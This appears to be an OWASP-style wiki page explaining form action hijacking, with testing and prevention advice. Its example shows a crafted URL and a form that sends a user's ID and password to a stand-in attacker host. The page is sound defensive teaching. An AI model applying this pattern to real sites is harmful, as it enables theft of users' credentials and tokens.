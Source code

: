 Last revision (mm/dd/yy): **//**

## Overview

Form action hijacking allows an attacker to specify the action URL of a
form via a paramter. An attacker can construct a URL that will modify
the action URL of a form to point to the attacker's server. Form content
including CSRF tokens, user entered parameter values, and any other of
the forms content will be delivered to the attacker via the hijacked
action URL.

## How to Test for Form Action Hijacking Vulnerabilities

Check parameter values passed to the form action. See example below.

## How to Prevent Form Action Hijacking Vulnerabilities

Hard-code the form action URL or use a whitelist of allowed URLs.

## Examples

The following URL will generate the a form and set the "url" parameter
as the from action URL. When the form is submitted, the ID and password
will be sent to the attacker's site.

URL:

    https://vulnerablehost.com/?url=https://attackersite.com

Source:

    <form name="form1" id="form1" method="post" action="https://attackersite.com">
        <input type="text" name="id" value="user name">
        <input type="password" name="pass" value="password">
        <input type="submit" name="submit" value="Submit">
    </form>

## References

  - [Common Weakness Enumeration - CWE-20: Improper Input
    Validation](https://cwe.mitre.org/data/definitions/20.html)
  - [PortSwigger: Form action hijacking
    (reflected)](https://portswigger.net/knowledgebase/issues/details/00501500_formactionhijackingreflected)
  - [PortSwigger: Form action hijacking
    (stored)](https://portswigger.net/knowledgebase/issues/details/00501501_formactionhijackingstored)

[Category:Input Validation
Vulnerability](Category:Input_Validation_Vulnerability "wikilink")
[Category:OWASP Top Ten
Project](Category:OWASP_Top_Ten_Project "wikilink") [Category:
Attack](Category:_Attack "wikilink")